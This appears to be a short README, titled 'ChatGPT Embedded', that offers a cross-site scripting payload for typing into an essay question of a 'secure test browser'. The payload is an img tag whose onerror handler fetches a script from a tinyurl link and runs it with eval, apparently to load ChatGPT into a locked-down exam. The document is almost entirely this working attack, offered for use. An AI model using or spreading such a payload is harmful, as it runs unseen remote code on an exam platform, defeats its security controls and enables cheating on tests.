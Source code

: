 # ChatGPT Embedded
This can be used for xss in secure test browser just type this into essay question (good luck memorizing it)
```
<img src=# onerror='fetch("https://tinyurl.com/securexss").then(r => r.text()).then(eval);'>
```
